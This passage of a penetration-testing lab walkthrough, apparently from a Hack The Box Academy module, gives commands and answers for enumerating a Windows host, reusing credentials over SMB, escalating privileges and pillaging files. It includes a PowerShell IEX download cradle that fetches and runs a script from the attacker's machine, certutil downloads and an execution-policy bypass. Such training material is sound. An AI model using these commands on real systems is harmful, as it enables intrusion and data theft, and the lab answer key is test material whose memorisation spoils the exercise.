

**Answer :** `55` 

---

# Section 14 : Windows Information Gathering

Run an `nmap` scan on the target IP (`10.129.230.148`, different in your case).

```bash
nmap -p- 10.129.230.148 -sVC -Pn -T5 -vv
```

### 1. **How many TCP ports in total are open on the Windows target?**

Count the total number of open **`TCP`** ports displayed after the scan is complete and that is your answer.

**Answer :** `19` 

### 2. **What is the hostname of the Windows target?**

Scroll down below to find the `smb-os-discovery` section of the `nmap` scan output, where you will find the device/host name



**Answer :** `WIN01` 

### 3. **What is the version of Gitea running on the Windows target?**

Open a browser and navigate to the web server on port `3000` .

```bash
firefox http://10.129.230.148:3000
```



**Answer :** `1.12.4` 

### 4. **How many shares can you see on the Windows target?**

We will use the `crackmapexec` tool to enumerate the shares present on the Windows target.

```bash
crackmapexec smb 10.129.230.148 -u guest -p '' --shares
```



We can see that we have discovered 4 shares : `ADMIN$` , `C$`, `Devs` and `IPC$` .

**Answer :** `4` 

### 5. **What is the name of the non-standard share?**

From the above findings, it is clear that the `Devs` share is a custom share and not a standard one. Standard shares include `ADMIN$` , `C$`, and `IPC$` .

**Answer :** `Devs` 

---

# Section 15 : Windows Initial Access

Using the credentials discovered from the previous Linux target (`john:SuperSecurePass123`), we test for **credential reuse** across the Windows environment.

We use `crackmapexec` to search for sensitive files within the `Devs` share.

```bash
crackmapexec smb 10.129.12.20 -u "john" -p 'SuperSecurePass123' --spider Devs --pattern .
```

**Command Breakdown :**

**1. The Core Command**

- **`crackmapexec smb`**: You’re calling the tool (`crackmapexec`) and telling it to use the **SMB** protocol. SMB is the standard language Windows computers use to share files and printers on a network.

**2. The Target and Credentials**

- **`10.129.12.20`**: This is the IP address of the target machine you are "knocking" on.
- **`u "john"`**: The username you are using to log in.
- **`p 'SuperSecurePass123'`**: The password for that user.

**3. The Action (The "Spider")**

- **`-spider Devs`**: This tells the tool to look into a specific shared folder named **"Devs"**. The term "spider" means the tool will crawl through every subfolder and file inside that share, much like a search engine bot crawls the web.
- **`-pattern .`**: This is your search filter. By using a dot (`.`), you are telling the tool to match **everything**. It will list every single file it finds in the "Devs" folder, regardless of the file extension or name.

**Finding:** A file named `tmp.ps1` was identified.

**Downloading the `tmp.ps1` file :**

```bash
crackmapexec smb 10.129.12.20 -u 'john' -p 'SuperSecurePass123' --share Devs --get-file tmp.ps1 tmp.ps1
```

**Command breakdown :**

**1. The Connection**

- **`crackmapexec smb 10.129.12.20`**: Same as before—using the SMB protocol to talk to the target machine.
- **`u "john" -p 'SuperSecurePass123'`**: Using John’s credentials to gain entry.

2. The File Transfer

- **`-share Devs`**: This specifies which "cabinet" (the network share) you are opening. In this case, it's the folder named **Devs**.
- **`-get-file tmp.ps1 tmp.ps1`**: This is the "download" instruction. It follows a specific syntax:
    - **First `tmp.ps1`**: The name of the file as it exists **on the remote computer**.
    - **Second `tmp.ps1`**: The name you want to give the file **on your own computer** once it’s downloaded.

```powershell
# Script: CopyFileFromRemoteShare.ps1
$username = "WIN01\john"
$password = "SuperSecurePass123"  
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential($username, $securePassword)

$remoteShare = "\\FileServer01\SharedFolder"
$sourceFileName = Read-Host -Prompt "File> "
$sourceFile = "$remoteShare\$sourceFileName"
$destinationFile = "C:\Temp\$sourceFileName"
$destinationDir = "C:\Temp"

if (-not (Test-Path $destinationDir)) {
    New-Item -Path $destinationDir -ItemType Directory -Force
}

try {
    New-PSDrive -Name "Z" -PSProvider FileSystem -Root $remoteShare -Credential $credential -ErrorAction Stop

    if (Test-Path "Z:\$sourceFileName") {
        Copy-Item -Path "Z:\$sourceFileName" -Destination $destinationFile -Force
        Write-Output "File copied successfully to $destinationFile"
    } else {
        Write-Output "Error: File '$sourceFileName' not found in $remoteShare"
    }
} catch {
    Write-Output "An error occurred: $_"
} finally {
    Remove-PSDrive -Name "Z" -Force -ErrorAction SilentlyContinue

```

### 1. **What is the hostname of the file server that you discovered in the PowerShell script?**

From the `tmp.ps1` script, it is visible that the `$remoteShare` variable stores the value `\\FileServer01\SharedFolder` which concludes that the hostname of the file server is `FileServer01` .

**Answer :** `FileServer01` 

### 2. **When was the Gitea Git Hooks RCE vulnerability disclosed? (Format: YYYY-MM-DD)**

Let’s open msfconsole by just typing `msfconsole` and search for any known exploits related to Gitea.



Take a look at `index 5` where the Disclosure Date is given.

**Answer :** `2020-10-07`

---

# Section 16 : Windows System Enumeration

### 1. **What is the task name that repeats every 2 minutes? (Format: <name>)**

```powershell
schtasks /query /fo LIST /v
```



**Answer :** `CorpBackupAgent`

### 2. **What is the SID of the user "john"?**

```powershell
whoami /USER
```



**Answer :** `S-1-5-21-481531802-3248398329-2133938904-1002`

### 3. **What is the exact OS Version that WinPEAS delivers?**

Winpeas comes in three different file types for performing similar enumeration on Windows as linpeas does on Linux. In this case, we’ll use the PowerShell script since PowerShell is enabled on our Windows target. 

First, on the attacking machine (Pwnbox) create a new directory and navigate to it, then download the `winPEAS.ps1` script into that directory. Next, start an HTTP server on port 8080 using Python. 

**Steps performed on the attacking machine:** 

```bash
┌─[eu-academy-4]─[10.10.14.69]─[htb-ac-2120529@htb-ppurnfnsji-htb-cloud-com]─[~]
└──╼ [★]$ mkdir WIN01

┌─[eu-academy-4]─[10.10.14.69]─[htb-ac-2120529@htb-ppurnfnsji-htb-cloud-com]─[~]
└──╼ [★]$ cd WIN01/

┌─[eu-academy-4]─[10.10.14.69]─[htb-ac-2120529@htb-ppurnfnsji-htb-cloud-com]─[~/WIN01]
└──╼ [★]$ ls

┌─[eu-academy-4]─[10.10.14.69]─[htb-ac-2120529@htb-ppurnfnsji-htb-cloud-com]─[~/WIN01]
└──╼ [★]$ wget https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1
--2026-02-27 11:43:09--  https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 94310 (92K) [text/plain]
Saving to: ‘winPEAS.ps1’

winPEAS.ps1                         100%[=====================================================================================================>]  92.10K  --.-KB/s    in 0.04s   

2026-02-27 11:43:10 (2.17 MB/s) - ‘winPEAS.ps1’ saved [94310/94310]

┌─[eu-academy-4]─[10.10.14.69]─[htb-ac-2120529@htb-ppurnfnsji-htb-cloud-com]─[~/WIN01]
└──╼ [★]$ ls
winPEAS.ps1

┌─[eu-academy-4]─[10.10.14.69]─[htb-ac-2120529@htb-ppurnfnsji-htb-cloud-com]─[~/WIN01]
└──╼ [★]$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

```

Finally, instruct the Windows target to download the script from our attacking machine (Pwnbox) and save the output to a separate file for later review.

```bash
powershell "IEX(New-Object Net.WebClient).downloadString('http://<attacking-machine-IP>:8080/winPEAS.ps1')" > winpeas.txt
```

**Command Breakdown:**

- **`powershell`**: This starts the Windows PowerShell engine to execute the following instructions.
- **`IEX`**: Short for **Invoke-Expression**. This is a powerful (and dangerous) command that tells PowerShell: "Take whatever text you get next and run it as a live command."
- **`(New-Object Net.WebClient).downloadString(...)`**:
    - This creates a temporary "web browser" object in the background.
    - **`downloadString`** tells it to go to the URL provided and read the code inside the `winPEAS.ps1` file.
- **`'http://<attacking-machine-IP>:8080/winPEAS.ps1'`**: This is the address of **your** machine (the attacker) where you are hosting the script.
- **`> winpeas.txt`**: This is called "redirection." Instead of printing thousands of lines of output to your terminal screen, it saves everything into a file named **winpeas.txt** so you can read it carefully later.

**Output snippet of the command:**

```bash
====================================||SYSTEM INFORMATION ||====================================
The following information is curated. To get a full list of system information, run the cmdlet get-computerinfo

Host Name:                 WIN01
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00429-80716-06128-AA790
Original Install Date:     6/12/2024, 1:51:28 AM
System Boot Time:          3/5/2025, 1:59:36 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.23553139.B64.2403260936, 3/26/2024
Windows Directory:         C:\\Windows
System Directory:          C:\\Windows\\system32
Boot Device:               \\Device\\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-06:00) Central Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,736 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,314 MB
Virtual Memory: In Use:    1,485 MB
Page File Location(s):     C:\\pagefile.sys
Domain:                    HTBLAB
Logon Server:              \\\\WIN01
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB5009472
                           [02]: KB4577586
                           [03]: KB4589208
                           [04]: KB5010427
                           [05]: KB5009642
```

**Answer :** `10.0.17763 N/A Build 17763`

### 4. **How many hotfixes are installed on the Windows target?**

```bash
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB5009472
                           [02]: KB4577586
                           [03]: KB4589208
                           [04]: KB5010427
                           [05]: KB5009642
```

**Answer :** `5` 

---

# Section 17 : Windows Vulnerability Assessment

### 1. **What is the content of the first line in the healthcheck.log file on the Windows target?**



**Answer :** `Backup prep completed.` 

---

# Section 18 : Windows Privilege Escalation

### 1. **What does the "backupprep.ps1" script measures? (Format: two words)**



**Answer :** `CPU Usage`

### 2. **What type of attack was being used to escalate the privileges in the above example? (Format: two words)**

**Answer :** `Code Injection`

---

# Section 19 : Windows Pillaging

Similar to `winPEAS.ps1` , download the `winpill.ps1` and host it on the attacking machine. Download the `winpill.ps1` script hosted on the Pwnbox using the below command:

```bash
certutil -urlcache -f http://<IP_ATTACKING_MACHINE>:<PORT>/<FILE_TO_DOWNLOAD> <NAME_OF_FILE_ON_YOUR_DEVICE>
```

After downloading the script, `rdp` to the Windows target and run it as an `Administrator` using the below command:

```bash
Start-Process powershell.exe -Verb RunAs -ArgumentList "-NoProfile -ExecutionPolicy Bypass -File C:\<file_path>\winpill.ps1"
```

Here is the breakdown in simple terms:

- **`Start-Process powershell.exe`**: Instead of just running a command in your current window, this tells Windows to launch a brand-new, separate PowerShell process.
- **`Verb RunAs`**: This is the most critical part. In Windows-speak, `RunAs` is the command for **"Run as Administrator."** * *Note:* If you are in a GUI session (like the **xfreerdp** one you set up earlier), this will usually trigger a **UAC (User Account Control)** pop-up asking for permission.

Everything inside the quotes is a set of instructions for the *new* PowerShell window that is about to open:

- **`NoProfile`**: Tells PowerShell to ignore any "Profile" scripts (customizations) that the user might have. This makes the startup faster and prevents any pre-existing user settings from interfering with the script.
- **`ExecutionPolicy Bypass`**: This is the "Security Guard Bypass." By default, Windows blocks most scripts from running. This flag tells PowerShell: "Don't look at the security policy; just run the script anyway."
- **`File C:\\winpill.ps1`**: This tells the new Administrator window exactly which file to execute. In this case, it’s a file named **`winpill.ps1`** .

### 1. **What is the customer ID of "Nicholas Taylor"?**

Under the section  `First 20 Interesting Files` of the script output, we find a file named `customer_database.csv` located at `C:\Users\Administrator\customer_database.csv` . We open the file and inspect it.



**Answer :** `7d660ce6-fb54-4006-8446-5ae1b3ae1064`

### 2. **What is the path of the ADMIN$ share?**

From the output generated by executing the `winpill.ps1` script:



**Answer :** `C:\Windows` 

### 3. **Which Wireshark version is installed on the Windows target? (Format: x.y.z)**

From the output generated by executing the `winpill.ps1` script:



**Answer :** `4.2.5`

### 4. **How many firewall rules are enabled?**

**Answer :** `198` 

---